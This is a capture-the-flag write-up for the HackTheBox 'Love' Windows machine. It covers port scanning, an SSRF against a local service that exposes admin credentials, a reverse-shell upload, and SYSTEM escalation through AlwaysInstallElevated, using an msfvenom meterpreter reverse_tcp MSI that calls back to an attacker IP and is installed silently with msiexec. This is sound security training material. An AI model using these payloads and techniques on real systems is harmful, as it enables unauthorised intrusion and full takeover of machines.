HackTheBox - Love Writeup
Table of Contents
Enumeration
- scan top 1000 ports
nmap -sC -sV -oN nmap/initial 10.10.10.239
- the result
# Nmap 7.91 scan initiated Sat Aug 14 02:50:38 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.28s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql?
| fingerprint-strings:
| DNSStatusRequestTCP, FourOhFourRequest, HTTPOptions, Help, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe, oracle-tns:
|_ Host '10.10.14.7' is not allowed to connect to this MariaDB server
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/14%Time=6116BF2A%P=x86_64-unknown-linux-gnu
SF:%r(HTTPOptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(R
SF:PCCheck,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatu
SF:sRequestTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help
SF:,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,4
SF:9,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCoo
SF:kie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionRe
SF:q,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,
SF:"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0\
SF:x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server")%r(FourOhFourRequest,49,"E\0\
SF:0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\x01\
SF:xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connec
SF:t\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xffj\x04Host\x
SF:20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20thi
SF:s\x20MariaDB\x20server")%r(NotesRPC,49,"E\0\0\x01\xffj\x04Host\x20'10\.
SF:10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Ma
SF:riaDB\x20server")%r(oracle-tns,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.1
SF:4\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB
SF:\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h44m51s, deviation: 4h02m31s, median: 24m50s
| smb-os-discovery:
| OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: Love
| NetBIOS computer name: LOVE\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2021-08-13T12:16:32-07:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-08-13T19:16:31
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 02:51:55 2021 -- 1 IP address (1 host up) scanned in 77.19 seconds
- All ports scan
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.239
- the result
# Nmap 7.91 scan initiated Sat Aug 14 04:54:24 2021 as: nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.27s latency).
Not shown: 65516 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql?
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LPDString, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|_ Host '10.10.14.7' is not allowed to connect to this MariaDB server
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp open unknown
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after: 2024-04-10T14:39:19
|_ssl-date: 2021-08-13T21:47:03+00:00; +24m50s from scanner time.
| tls-alpn:
|_ http/1.1
7680/tcp open pando-pub?
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/14%Time=6116E1D8%P=x86_64-unknown-linux-gnu
SF:%r(HTTPOptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(R
SF:TSPRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVe
SF:rsionBindReqTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20
SF:not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(
SF:DNSStatusRequestTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(Help,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSess
SF:ionReq,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalS
SF:erverCookie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSS
SF:essionReq,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x2
SF:0allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerber
SF:os,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0
SF:\x01\xffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20c
SF:onnect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\x01\x
SF:ffj\x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect
SF:\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"E\0\0\x01\xffj\
SF:x04Host\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20
SF:to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj\x04Ho
SF:st\x20'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x2
SF:0this\x20MariaDB\x20server")%r(LANDesk-RC,49,"E\0\0\x01\xffj\x04Host\x2
SF:0'10\.10\.14\.7'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this
SF:\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h09m51s, deviation: 3h30m03s, median: 24m49s
| smb-os-discovery:
| OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: Love
| NetBIOS computer name: LOVE\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2021-08-13T14:46:49-07:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-08-13T21:46:45
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 05:22:15 2021 -- 1 IP address (1 host up) scanned in 1671.47 seconds
Open Ports
- This machine have webserver on port 80,443 and 5000.
- Also, SMB
- The nmap scan found the host name
staging.love.htblove.htb- added to the
/etc/hostsfile.
WebPage [love.htb]
- Let’s take look at
love.htb

- It’s just a login page.
- We need credentials to access it
Gobuster
- I’m gonna run the gobuster scan in the background
gobuster dir -u http://love.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php
- the result

- I’ll try my best to enumerate it.
- unfortunately, I can’t find anything yet.
- Let’s check the other site.
WebPage [staging.love.htb]
- Well, this is just
free file scannerapp. - I try to
sign upbut it didn’t work. - However, I found the
input formin thedemo tab(at the top navbar)

- It scans the file by entering the URL
- Now, I’m gonna start the python web server and make a request

- then, put the URL.
- we’ve got the response.

SSRF
- Server Side Request Forgery [SSRF]
The attacker can supply or modify a URL which the code running on the server will read or submit data, and by carefully selecting the URLs, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases or perform post requests towards internal services which are not intended to be exposed.
- Remember the Nmap scan earlier.
- we’ve found port
5000open and runningApachebut we can’t reach it. - So, I’m gonna make the server do request on itself by putting
http://127.0.0.1:5000 - the result

- cool! we’ve got the
admin credentials - gobuster scan earlier found the
/admin/directory - let’s login with those creds
Foothold/Gaining Access
WebPage [love.htb/admin]

- We’ve got access to the admin panel
- Let’s enumerate the admin panel.
- I’ve found the
upload sectionon theadmin update profile

- Let’s upload the
reverse shell - navigate to
love.htb/images/<filename>to activate the reverse shell
Phoebe
- success!
- we’ve got the shell
- Let’s get the
user flag

User Flag

WinPEAS
- Now, I’m gonna upload the
WinPEAS - Then, run the binary

- To be honest, I can’t find anything at all.
- Then, I just keep opening the link that has
red color - Man oh man, I’ve found it.
Privilege Escalation

Checking AlwaysInstallElevated
- Let’s googling around. I’ve found some good source
- Source
AlwaysInstallElevated
As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by MSI packages for the installation of applications. These MSI packages can be installed with elevated privileges for non-admin users
- How, we wanna know if this
AlwaysInstallElevatedcan use?- If these 2 registers are enable (value is 0x1)
- then, users of any privilege can install (execute)
*.msifiles asNT AUTHORITY/SYSTEM - Source
Checking the register
- Let’s try to do it.
- First, let’s check the value of the 2 registers
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
- the result

- So, the value of those
2 registers are in facts 0x1 - Now, we know we can exploit it.
Generate MSI files
- So, I’m gonna generate
MSI package filewithmsfvenom.
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.14 lport=9902 -f msi > lol.msi
- After successfully generate the files
- Then,
uploadthe file into the target machine.
exploit/multi/handler
- Before we can execute it.
- We need to set up the
"listener"for our meterpreter reverse shell

Execute the MSI file
- Let’s execute those files
msiexec /quiet /qn /i lol.msi
# flags explain
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs.administrative) installation
- the result
